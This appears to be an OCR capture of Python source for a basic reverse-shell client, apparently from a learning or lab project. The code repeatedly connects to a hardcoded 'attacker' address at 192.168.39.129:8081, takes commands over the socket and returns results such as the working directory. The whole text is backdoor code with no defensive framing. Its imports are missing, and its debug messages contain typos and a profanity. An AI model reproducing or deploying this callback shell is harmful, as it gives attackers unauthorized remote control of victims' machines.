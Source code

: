 def reliable_recv():
    print("Reliably reieved")
    data = ""
    while True:
        try:
            print(data)
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    print("Reliably Recved")
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    print("Inside the shell functions")
    while True:
        command = reliable_recv()
        print("Command Recieved")
        if command == 'terminate':
           connection_to_attacker.close()
           break
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                print(files)
                reliable_send(files)
            except:
                pass
        elif command == 'clear':
            pass
        else:
            print("FuckOff")
                

def connection():
    while True:
        print("connection sending")
        #random.randint(5,15)
        time.sleep(5)
        try:
            print("Trying to send connection to the attacker")
            connection_to_attacker.connect(("192.168.39.129", 8081))
            print("call To the shell function")
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()

